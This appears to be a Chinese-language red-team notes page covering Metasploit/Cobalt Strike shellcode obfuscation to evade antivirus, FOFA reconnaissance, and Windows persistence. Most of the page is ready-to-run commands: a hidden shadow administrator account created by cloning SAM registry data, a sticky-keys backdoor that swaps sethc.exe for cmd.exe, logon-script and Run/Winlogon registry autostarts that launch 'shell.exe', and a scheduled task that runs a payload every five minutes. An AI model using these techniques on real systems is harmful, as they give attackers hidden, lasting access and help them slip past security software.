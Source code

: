 ## msf/cs免杀
#### 1. 对shellcode进行加密编码
#### 1. 在特定位置添加垃圾字节
#### 2. 使用硬编码的单字节密钥对字节进行XOR或者加减法运算
#### 3. 将字节移位某些特定位置
#### 4. 交换连续字节
<a href="https://smms.app/image/3mnDuMSoA97YRCX" target="_blank"><img src="https://s2.loli.net/2024/03/20/3mnDuMSoA97YRCX.png" alt="沙盒免杀.png"></a>

## FOFA信息收集
<a href="https://smms.app/image/8c9GSkojiMr3Xmh" target="_blank"><img src="https://s2.loli.net/2024/03/20/8c9GSkojiMr3Xmh.png" alt="FOFA语句.png"></a>

## windows权限维持
### 简单维持
1. 创建影子账户
```
net user test$ 123456 /add
net localgroup administrators test$ /add
注册表（HKEY_LOCAL_MACHINE\SAM\SAM）修改SAM权限，赋予adminitrators完全控制权限
将Administrator用户对应项的F数据值复制到test$用户对应项的F数据值
将test$和所对应项文件夹导出，分别命名为test.reg和1.reg
删除test$用户，将test.reg和1.reg导入注册表	
net user test$ /del
regedit /s test.reg
regedit /s 1.reg
```
2. 粘滞键后门
```
粘滞键指的是电脑使用中的一种快捷键，专为同时按下两个或多个键有困难的人而设计的。
粘滞键的主要功能是方便Shift等键的组合使用。一般的电脑连按五次shift会出现粘滞键提示。
粘滞键位置：c:\windows\system32\sethc.exe
sethc.exe sethc1.exemove
copy cmd.exe sethc.exe
```
3. logon scripts后门
```
Windows登录脚本，当用户登录时触发，Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截。
注册表位置：HKEY_CURRENT_USER\Environment
REG ADD "HKEY CURRENT USER\Environment" /v UserlnitMprLogonScript /t REG_SZ /d "C:\shell.exe"
#创建键为: UsernitMprLogonScript，其键值为我们要启动的程序路径
```
4. 注册表自启动后门
```
位置一：
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
添加键test，值为后门程序路径。
REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v test1 /t REG_SZ /d "C:\shell.exe"
位置二：
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
修改键Userinit的值，重启就会自动运行程序。
```
5. 屏幕保护程序后门（还是改注册表）
6. 计划任务后门
```
schtasks /Create /tn Updater /tr c:\whell.exe /sc minute /mo 5 
#每5分钟自动执行666.exe
```
7. 服务自启动后门
```
```